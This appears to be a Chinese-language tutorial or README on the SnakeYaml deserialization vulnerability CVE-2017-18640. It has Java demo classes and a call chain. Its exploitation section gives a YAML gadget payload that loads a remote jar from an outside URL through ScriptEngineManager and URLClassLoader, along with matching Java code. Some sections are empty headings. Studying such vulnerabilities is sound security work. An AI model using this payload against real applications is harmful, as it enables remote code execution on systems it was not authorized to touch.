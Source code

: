 # SnakeYaml反序列化漏洞（CVE-2017-18640）

影响范围



# 二、漏洞描述



说是漏洞，其实也算是feature，类似于fastjson，这是人家支持的功能。 



新建一个类`Foo`用于测试： 

```java
package com.cc11001100;

public class Foo {

    private String bar;

    public String getBar() {
        return bar;
    }

    public void setBar(String bar) {
        this.bar = bar;
    }

    @Override
    public String toString() {
        return "Foo{" +
                "bar='" + bar + '\'' +
                '}';
    }
}
```

尝试反序列化这个类：

```java
package com.cc11001100;

import cc11001100.snakeyaml.domain.Foo;
import org.yaml.snakeyaml.Yaml;

import java.io.IOException;

public class Main {

    public static void main(String[] args) throws IOException {

        Yaml yaml = new Yaml();
        Foo foo = yaml.load("!!Foo {bar: 'xxx'}");
        System.out.println(foo);
        System.out.println(yaml.dump(foo));

    }

}
```

可以看到反序列化成功，并且成员变量的值也被成功设置进去了：

![image-20220831012329439](README.assets/image-20220831012329439.png)



调用链：

![image-20230704092409266](README.assets/image-20230704092409266.png)

```
loadAs
    loadFromReader
        getSingleData
            constructDocument
                constructObjectNoCheck
                    constructObjectNoCheck
```

因为是其本身提供的功能，所以调用链其实没什么意义。





# 三、漏洞利用：ScriptEngineManager

## 3.1 如何利用

在Java中有个

```
https://github.com/artsploit/yaml-payload
```



### 为什么选择这个gadget？

1. `ScriptEngineManager`这个类和



## 3.2 能出网：远程加载jar文件

就是通过`javax.script.ScriptEngineManager`的构造函数传递一个`java.net.URLClassLoader`来远程加载类文件执行，只要这个被加载的文件是`EvilScriptEngineFactory`类型即可。

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```

下面的构造方法接受一个`ClassLoader`类型的加载器： 

```java
    /**
     * This constructor loads the implementations of
     * <code>ScriptEngineFactory</code> visible to the given
     * <code>ClassLoader</code> using the service provider mechanism.<br><br>
     * If loader is <code>null</code>, the script engine factories that are
     * bundled with the platform are loaded. <br>
     *
     * @param loader ClassLoader used to discover script engine factories.
     */
    public ScriptEngineManager(ClassLoader loader) {
        initEngines(loader);
    }
```

可以通过`URLClassLoader`来远程加载：

```java
String remoteJarUrl = "xxx";
new ScriptEngineManager(new URLClassLoader(new URL[]{new URL(remoteJarUrl)})); 
```





## 3.3 不能出网：加载本地jar文件





# 四、漏洞利用：结合其它框架 







# 五、相关资料

- https://github.com/artsploit/yaml-payload

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-18640
- https://nvd.nist.gov/vuln/detail/CVE-2017-18640
- https://tttang.com/archive/1591/
- https://xz.aliyun.com/t/9934
- https://xz.aliyun.com/t/11599
- https://paper.seebug.org/1657/
- https://xz.aliyun.com/t/10655
- https://drops.blbana.cc/2020/03/24/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

